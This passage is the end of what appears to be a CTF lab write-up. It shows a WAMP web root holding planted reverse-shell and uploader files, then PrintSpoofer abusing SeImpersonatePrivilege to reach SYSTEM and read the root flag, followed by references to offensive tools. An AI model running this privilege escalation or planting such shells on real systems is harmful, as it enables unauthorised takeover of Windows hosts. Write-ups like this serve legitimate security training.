11/14/2026  04:28 AM    <DIR>          .
11/14/2026  04:28 AM    <DIR>          ..
06/10/2020  12:09 PM            23,781 add_vhost.php
12/31/2010  09:40 AM           202,575 favicon.ico
11/14/2026  03:57 AM            36,864 FullPowers.exe
04/20/2020  03:51 PM            20,875 index.php
11/14/2026  03:41 AM             7,871 php_reverse_shell.php
11/14/2026  04:28 AM            27,136 PrintSpoofer64.exe
11/14/2026  12:52 PM             7,680 revshell.exe
03/12/2020  11:23 AM               810 testmysql.php
09/21/2015  06:30 PM               742 test_sockets.php
11/14/2026  03:31 AM               406 uploader.php
11/23/2021  12:05 PM    <DIR>          wamplangues
11/23/2021  12:05 PM    <DIR>          wampthemes
              10 File(s)        328,740 bytes
               4 Dir(s)  10,580,652,032 bytes free

C:\wamp\www>PrintSpoofer64.exe -i cmd.exe
PrintSpoofer64.exe -i cmd.exe
[-] Please specify a command to execute

C:\wamp\www>PrintSpoofer64.exe -i -c cmd.exe
PrintSpoofer64.exe -i -c cmd.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

### Get the root flag

Finally, we can get the root flag:

```bash
C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\Users\Administrator\Desktop

11/23/2021  12:55 PM    <DIR>          .
11/23/2021  12:55 PM    <DIR>          ..
11/14/2026  03:27 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,578,206,720 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
2<REDACTED>e

C:\Users\Administrator\Desktop>
```

For additional information, please see the references below.

## References

- [allow_url_fopen - PHP Manual](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [FoxyProxy - Chrome Add-on](https://chromewebstore.google.com/detail/foxyproxy/gcknhkkoolaabfmlnjonogaaifnjlfnp)
- [FoxyProxy - Firefox Add-on](https://addons.mozilla.org/en-CA/firefox/addon/foxyproxy-standard/)
- [FoxyProxy - Homepage](https://getfoxyproxy.org/)
- [FullPowers - GitHub](https://github.com/itm4n/FullPowers)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [LAMP (software bundle) - Wikipedia](https://en.wikipedia.org/wiki/LAMP_(software_bundle))
- [LocalService Account - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/services/localservice-account)
- [MariaDB - Wikipedia](https://en.wikipedia.org/wiki/MariaDB)
- [Metasploit - Documentation](https://docs.metasploit.com/)
- [Metasploit - Homepage](https://www.metasploit.com/)
- [Metasploit-Framework - Kali Tools](https://www.kali.org/tools/metasploit-framework/)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [Msfvenom - Metasploit Docs](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- [Msfvenom - Kali Tools](https://www.kali.org/tools/metasploit-framework/#msfvenom)
- [MySQL - Wikipedia](https://en.wikipedia.org/wiki/MySQL)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Penelope - GitHub](https://github.com/brightio/penelope)
- [Penelope - Kali Tools](https://www.kali.org/tools/penelope/)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [phpMyAdmin - Wikipedia](https://en.wikipedia.org/wiki/PhpMyAdmin)
- [php-reverse-shell.php - ivan-cincek - GitHub](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
- [PrintSpoofer - GitHub](https://github.com/itm4n/PrintSpoofer)
- [Proxy server - Wikipedia](https://en.wikipedia.org/wiki/Proxy_server)
- [Remote procedure call - Wikipedia](https://en.wikipedia.org/wiki/Remote_procedure_call)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [Spose (Squid Pivoting Open Port Scanner) - GitHub](https://github.com/aancw/spose)
- [Squid (software) - Wikipedia](https://en.wikipedia.org/wiki/Squid_(software))
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [Uploading Shell via PHPmyadmin - GitHub](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f)
- [WAMP - Wikipedia](https://en.wikipedia.org/wiki/LAMP_(software_bundle)#Variants)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [Windows Privilege Escalation Checklist - Cajac's CTF Notes](https://cajac.gitbook.io/ctf-notes/priv-esc/windows-privilege-escalation/windows-privesc-checklist)
